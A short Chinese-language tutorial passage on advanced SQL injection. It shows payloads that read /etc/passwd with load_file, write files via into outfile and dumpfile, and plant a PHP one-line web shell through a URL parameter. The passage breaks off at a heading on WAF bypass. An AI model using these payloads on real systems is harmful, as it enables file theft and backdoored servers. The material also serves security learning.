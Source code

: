![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626730525000858.png)
# 12. SQL注入高级用法

## 12.1. 提权

* 在权限足够的情况下，通过SQL注入进行文件的读写：

load_file() 读文件：union select 1，load_file('/etc/passwd')

into outfile() 写文件：select * into outfile('/var/www/html/1.txt')

into dumpfile()写文件：select * into dumpfile('/var/www/html/1.txt')

* dumpfile和outfile的区别：

dumpfile输出的内容没有格式，而且内容全部在一行，适合写入可执行文件。

outfile适合写入一句话木马，语句如下：

```sql
?id=1' union select 1,2,"<?php @eval($_POST['pass']); ?>" into outfile "D:/test/WWW/shell.php"%23
```
* secure-file-priv 的限制

![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626736010000842.png)
## 12.2. WAF绕过
